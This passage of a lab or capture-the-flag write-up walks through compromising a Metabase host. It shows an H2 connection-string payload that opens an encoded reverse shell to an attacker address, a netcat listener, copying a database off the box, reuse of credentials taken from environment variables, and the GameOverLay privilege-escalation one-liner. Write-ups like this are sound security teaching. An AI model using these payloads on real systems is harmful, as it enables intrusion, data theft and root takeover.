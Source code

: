 ```http
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMzQvOTAwMSAgMD4mMSAK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
Unfortunately, I am in a Docker container, so not out oft he woods yet. The container has no `python`, no `script`, I can't use `vi`, so I end up using `rlwrap` to get a proper tty. I kill my current shell, and start another listener with `rlwrap` in front of it, and send off the reverse shell payload again,
```bash
rlwrap nc -lvnp 9001
```
I poke around on the box for a bit. I find the `metabase.db` folder in `/` and exfil it back to my box to check out. Don't end up getting too much from it.

I eventually I run `printenv`, to print the environment variables, and sitting right there is a set of credentials.
```bash
ca0612546179:/$ printenv
<...SNIP>
META_USER=metalytics
META_PASS=<REDACTED>
<...SNIP...>
```
At first I thought these were credentials to log into the Metabase instance, but that failed. After that I tried them with SSH, and got a shell on the host system.
## Root Shell
### GameOverLay Exploit
Once on the box I begin poking around. I run `uname -a` and `cat /etc/os-release`. The VM is running Ubuntu 22.04 and kernel 6.2 I search for any known vulnerabilities in this environment and eventually find [this blog post](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability), which is about [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629), aka the GameOverLay exploit. This an exploit leading to local privilege escalation. I highly recommend reading the blog post, but the short version is that it's an exploit in the OverlayFS filesystem, which allows a low-privileged user to create a binary with arbitrary capabilities, which the user can then use to set their UID to 0, aka root.

According to the blog post, Ubuntu 22.04, as well as kernel 6.2 should be vulnerable. The exploit code is actually very simple, and can be used as a one liner in bash. I find exploit code in [this github repo](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), as well as [this one](https://github.com/vinetsuicide/CVE-2023-2640-CVE-2023-32629) 
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
Now let's break down this command.
